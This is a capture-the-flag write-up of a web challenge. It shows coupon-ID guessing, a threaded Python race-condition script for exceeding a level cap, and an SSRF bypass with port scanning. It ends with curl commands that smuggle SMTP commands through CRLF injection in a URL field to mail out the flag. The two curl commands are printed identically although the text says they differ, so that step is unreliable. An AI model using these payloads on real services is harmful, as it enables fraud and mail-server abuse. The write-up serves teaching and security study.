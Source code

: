 # MMORPG 3000 (web, 2 solved, 470p)

We failed to get the flag during the CTF, but only because we missed a funny `hardening` of postfix mail server at the very end of the task.
It might still be useful to provide the description of the intermediate steps, because the challenge had quite a few.

## Analysis

In the task we gain access to a webpage where we can battle other players and gain experience, and in the process also gain levels.
There is also `donate` page where we can provide details for a `coupon`, and by using such coupon we can gain money.
With money we can buy levels in the game.
Classic pay-to-win scenario.

We get a free coupon to start with, so we have some data for analysis.
When we `use` a coupon, we get intermediate stage, with coupon details in the cookie, and the coupon picture is displayed on the page.

## Getting money

We can't change the data of the coupon in cookie, since it's signed, but we can try to figure out how the codes are generated.
Last part of the coupon picture link is some 16 byte hexstring.
If we proceed to treat this as a hash and break it, we get a nice small integer back! 
If we look at link for coupon with id `1` for link http://web-03.v7frkwrfyhsjtbpfcppnu.ctfz.one/storage/img/coupon_c4ca4238a0b923820dcc509a6f75849b.png we get a nice:

![](coupon.png)

It's worth 1337 coins, and so are next few low-id coupons.

## Getting high level

Once we start buying levels it caps at 30 and the error says you can't go past that.
But we guess that maybe there is some race condition here, and maybe it's possible to go above 30.
With a new account we get some money and prepared 2 separate sessions and run a race script:

```python
import threading

import requests
from queue import Queue

max = 100
threads = Queue()
init_barrier = threading.Barrier(max * 2)


def lvlup(cookie):
    threads.get()
    init_barrier.wait()
    url = "http://web-03.v7frkwrfyhsjtbpfcppnu.ctfz.one/donate/lvlup"
    r = requests.get(url, cookies={"session": cookie})
    threads.task_done()


def worker2(index):
    lvlup("eyJ1aWQiOjUyOH0.DjXY-g.qjbHf51nmM7SzUbzkS_Ghu3vzxk")


def worker(index):
    lvlup("eyJ1aWQiOjUyOH0.DjXY2Q.76b4qhlA72cQ0CygdmkvhTJEdFI")


def race():
    for i in range(max):
        thread = threading.Thread(target=worker, args=[i])
        thread.daemon = True
        thread.start()
    for i in range(max):
        thread = threading.Thread(target=worker2, args=[i])
        thread.daemon = True
        thread.start()
    for i in range(max * 2):
        threads.put(i)
    threads.join()


race()
```

We basically fire 100 threads for each of 2 sessions and try to buy level with them.
We managed to get lvl 31 on one account and 32 on another, which is above 30, so it worked fine.
Once this is done a new link appears in the user profile page - upload your avatar.
We can either upload a local file, which was broken for large part of the CTF, or provide a link and server downloads the picture via python requests.
The latter option means we actually have SSRF!

## SSRF

It took us a while to figure out what we could do with SSRF here.
We noticed there is some lousy check for passing `localhost` or `127.0.0.1`, but it could be easily bypassed using dns resolving to localhost or just using `127.0.0.2`.
This poined us into the direction of requesting something from localhost, but we didn't know what, and only `http` and `https` scheme was supported.
To make matters worse we could not see any echo, if the result was not a picture.
We could, however, see when certain link was `down`.

We used this to `port scan` the local machine, and we found out that port `25` was available.
This pointed us to similar idea as in https://github.com/p4-team/ctf/tree/master/2017-12-09-seccon-quals/web_sqlsrf task where we were supposed to send email using HTTP header injection.

We tested this locally, and it seemed just fine, we could inject headers via newlines/carrige returns in the link, and therefore we could pass SMTP commands.
So we tried sending:

```
curl 'web-03.v7frkwrfyhsjtbpfcppnu.ctfz.one/user/avatar' -H 'Cookie: session=eyJ1aWQiOjE2NX0.DjfNgg.FM5Rbzw1uSiBvKx5L7YUoFpJsGk' --data 'url=https://127.0.0.2%0d%0aHELO 127.0.0.2%0aMAIL FROM: <A@B.C>%0aRCPT TO: <SHALOM@P4.TEAM>%0aDATA%0aFROM: AAA@B.C%0aTO: SHALOM@P4.TEAM%0aSUBJECT: GIB%0d%0a.%0d%0a%0aQUIT%0a:25&action=save'
```

But for some reason we got no emails from the server...

Our mistake was missing the special case implemented in postfix:

```c
#define DEF_SMTPD_FORBID_CMDS    "CONNECT GET POST"

        /* Ignore smtpd_forbid_cmds lookup errors. Non-critical feature. */
        if (cmdp->name == 0) {
        state->where = SMTPD_CMD_UNKNOWN;
        if (is_header(argv[0].strval)
            || (*var_smtpd_forbid_cmds
         && string_list_match(smtpd_forbid_cmds, argv[0].strval))) {
                msg_warn("non-SMTP command from %s: %.100s",
                     state->namaddr, vstring_str(state->buffer));
                smtpd_chat_reply(state, "221 2.7.0 Error: I can break rules, too. Goodbye.");
                break;
            }
        }

```

There is a hardening which targets exactly what we wanted to do - using HTTP request with injected headers to smuggle SMTP commands.
The way to bypass this was to use `https` instead of `http`, because in such case the initial part of the request will actually be encrypted, and SMTP will ignore it, and the URL will be in plaintext so the server will receive nice set of SMTP commands.
So is we instead send:

```
curl 'web-03.v7frkwrfyhsjtbpfcppnu.ctfz.one/user/avatar' -H 'Cookie: session=eyJ1aWQiOjE2NX0.DjfNgg.FM5Rbzw1uSiBvKx5L7YUoFpJsGk' --data 'url=https://127.0.0.2%0d%0aHELO 127.0.0.2%0aMAIL FROM: <A@B.C>%0aRCPT TO: <SHALOM@P4.TEAM>%0aDATA%0aFROM: AAA@B.C%0aTO: SHALOM@P4.TEAM%0aSUBJECT: GIB%0d%0a.%0d%0a%0aQUIT%0a:25&action=save'
```

We get a nice email with:

```
Message-ID: <20180722213651.1119A1F05FA9@flag.ctfzone.1640392aaf27597150c97e04a99a6f08.localdomain>
```

And the flag is `ctfzone{1640392aaf27597150c97e04a99a6f08}`
